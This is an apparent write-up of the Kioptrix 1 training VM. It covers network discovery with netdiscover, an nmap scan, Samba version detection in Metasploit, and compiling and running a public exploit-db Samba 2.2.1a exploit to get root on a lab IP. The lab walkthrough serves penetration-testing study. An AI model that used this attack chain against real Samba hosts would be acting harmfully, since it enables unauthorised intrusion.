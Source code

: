 # Kioptrix 1 - Walkthrought

## Setting up 

[Tutorial that I used](https://medium.com/@obikag/how-to-get-kioptrix-working-on-virtualbox-an-oscp-story-c824baf83da1)

First We check what's our ip with simple shell command:
```
ifconfig
```
![alt text](/screens/ifconfig.png)

Then we need to check the hosts running on our IP address with another shell command:
```
netdiscover
```
![alt text](/screens/netdiscover.png)

**PCS Systemtechnik GmbH** is Virtual Box Vendor so it must be our VM.


Let's scan it with **nmap**!

		* -sS stands for TCP SYN scan 
    
		* -A  DetectS OS and Services
    
```
nmap -sS -A <ip address>
```
![alt text](/screens/nmap.png)

We gonna set **port 139** as our target.
We see that the process running is **netbios-ssn - Samba** but no exact version is described.

After quick research I found a Metasploit scanner for Samba Version.
To access **Metasploit** in Kali Linux type:
```
msfconsole #to access Metasploit
use auxiliary/scanner/smb/smb_version #chosing the module
exploit #start exploit
```
![alt text](/screens/msfscan.png)


So it tells us that the Samba version is **2.2.1a**
Lets look for exploit!
Metasploit had some  exploits but somehow they failed for me.
Exploit-db came for the resque! [exploit-db](https://www.exploit-db.com/exploits/10)


We can download the exploit script from the **exploit-db**.
It comes as a .c file so we have to compile it first using **gcc(GNU Compiler Collections)**.
```
gcc <name of the C file> -o <name of the file compiled>
```
I called mine: **smbexploit**
To use it type: ./<name of file>
![alt text](/screens/smbexploit.png)

Console will display the options available.

Command format: ** ./<name of the file> <options> <target ip address> ** 
```
./smbexploit -c 192.168.8.106 -b 192.168.8.106 -b 0 192.168.8.106 -v 192.168.8.106
```
![alt text](/screens/root.png)

Got it! Root obtained!




